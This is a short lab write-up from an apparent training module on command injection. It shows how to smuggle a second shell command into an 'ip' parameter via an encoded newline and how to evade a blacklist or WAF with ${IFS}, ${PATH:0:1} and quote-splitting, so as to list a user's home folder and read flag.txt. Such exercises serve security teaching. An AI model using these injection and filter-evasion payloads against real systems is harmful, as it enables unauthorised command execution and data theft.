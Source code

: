 ```yaml
---
description: >-
  Use what you learned in this section find the content of flag.txt in the home
  folder of the user you previously found.
---
```


# Bypassing Blacklisted Commands

We continue to build up on our command in order to bypass the blacklist.&#x20;

First lets list the files inside the user 1nj3c70r. We add `${PATH:0:1}1nj3c70r` to our command:

```bash
ip=127.0.0.1%0a{ls,-la}${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we can see the `flag.txt` is indeed in the home folder.

Now all we have to to is retrieve the content from the file. To this we need to use the `cat` command.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Since some basic commands are in the blacklist, if we just insert cat we won't be able to use it in order the see the content of the `flag.txt`.

That's why we have to "break" the command with double-quotes in order to by pass the WAF:

{% code overflow="wrap" %}
```bash
ip=127.0.0.1%0ac"a"t${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
{% endcode %}

The command will be interpreted like this:

```bash
ping -c 1 127.0.0.1; cat /home/1nj3c70r/flag.txt
```

